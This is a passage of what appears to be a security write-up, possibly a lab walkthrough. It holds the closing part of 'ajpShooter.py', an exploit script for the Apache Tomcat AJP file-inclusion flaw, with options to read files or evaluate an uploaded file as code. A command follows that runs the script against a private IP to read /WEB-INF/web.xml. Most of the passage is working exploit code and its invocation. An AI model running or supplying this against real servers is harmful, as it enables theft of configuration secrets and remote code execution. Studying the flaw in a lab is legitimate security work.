 ```plain
            hsplit = header.split(':')
            hname = hsplit[0]
            hvalue = ':'.join(hsplit[1:])
            newheaders.append((hname.lower().encode('utf8'), hvalue.encode('utf8')))

        return newheaders


if __name__ == "__main__":
    # parse command line arguments
    print('''
       _    _         __ _                 _            
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __ 
     //_\\\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |   
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|   
         |__/|_|                                        
                                                00theway,just for test
    ''')
    parser = argparse.ArgumentParser()
    parser.add_argument('url', help='target site\'s context root url like http://www.example.com/demo/')
    parser.add_argument('ajp_port', default=8009, type=int, help='ajp port')
    parser.add_argument('target_file', help='target file to read or eval like /WEB-INF/web.xml,/image/evil.jpg')
    parser.add_argument('shooter', choices=['read', 'eval'], help='read or eval file')

    parser.add_argument('--ajp-ip', help='ajp server ip,default value will parse from from url')
    parser.add_argument('-H', '--header', help='add a header', action='append')
    parser.add_argument('-X', help='Sets the method (default: %(default)s).', default='GET',
                        choices=['GET', 'POST', 'HEAD', 'OPTIONS', 'PROPFIND'])
    parser.add_argument('-d', '--data', nargs=1, help='The data to POST')
    parser.add_argument('-o', '--out-file', help='write response to file')
    parser.add_argument('--debug', action='store_true', default=False)

    args = parser.parse_args()
    debug = args.debug
    ajpShooter(args).shoot()
```

```plain
python ajpShooter.py http://10.10.218.249 8009  /WEB-INF/web.xml read
```

[![](assets/1706771526-9483023fa501a7fb5fa63904f2cead9a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223033-f5da7724-beb2-1.png)
